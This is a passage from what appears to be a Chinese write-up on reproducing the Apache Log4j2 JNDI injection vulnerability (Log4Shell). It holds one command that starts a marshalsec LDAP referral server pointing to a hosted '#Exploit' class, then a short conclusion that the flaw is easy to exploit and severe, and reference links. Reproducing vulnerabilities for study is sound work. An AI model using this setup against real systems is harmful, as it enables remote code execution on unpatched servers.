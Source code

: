 [![](https://p2.ssl.qhimg.com/t0128871c86e25a7cd8.png)](https://p2.ssl.qhimg.com/t0128871c86e25a7cd8.png)

### <a class="reference-link" name="0x2%20%E5%BC%80%E5%90%AFldap%E6%9C%8D%E5%8A%A1"></a>0x2 开启ldap服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit
```

[![](https://p4.ssl.qhimg.com/t011c3f52f6699454c8.png)](https://p4.ssl.qhimg.com/t011c3f52f6699454c8.png)​



## 0x05 总结

通过复现调试该漏洞，深入了解了apache Log4j2日志记录的底层原理。关于该漏洞的利用网上还有很多姿势，整体来讲漏洞利用简单，且漏洞危害巨大，配合一些其他服务及系统有可能产生更大的影响。



## 参考文章

[https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg](https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg)<br>[https://nosec.org/home/detail/4917.html](https://nosec.org/home/detail/4917.html)
